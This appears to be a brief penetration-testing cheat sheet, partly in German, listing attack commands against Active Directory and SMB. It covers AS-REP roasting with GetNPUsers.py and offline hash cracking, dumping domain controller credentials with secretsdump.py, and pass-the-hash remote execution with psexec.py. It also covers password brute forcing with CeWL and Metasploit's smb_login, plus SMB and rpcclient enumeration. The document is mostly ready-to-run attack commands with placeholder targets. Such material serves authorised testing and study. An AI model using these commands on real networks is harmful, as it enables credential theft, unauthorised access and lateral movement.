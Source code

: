 # Enum AD
`GetNPUsers.py -usersfile <user_list> -dc-ip <dc-ip> <domain>/`

Afterwards crack with john or oclhashcat

# Dumps Cred from DC
`secretsdump.py "<domain>/<user>:<pwd>"@<target-host>`

# Use Hash to access pc
`psexec.py -hashes <hash> <user>@<target-host>`

# Bruteforcing
https://digi.ninja/projects/cewl.php
User + Passwörter auf seite sammeln und dann mit MSFConsole --> scanner/smb/smb_login

# SMB
## Test users
`smbclient -L <server> -U <user>`

## Change password?
`smbpasswd -r <server> -U <user>`

## RPCClient - Info Gathering
`rpcclient -U <domain>\\<user> <client>`
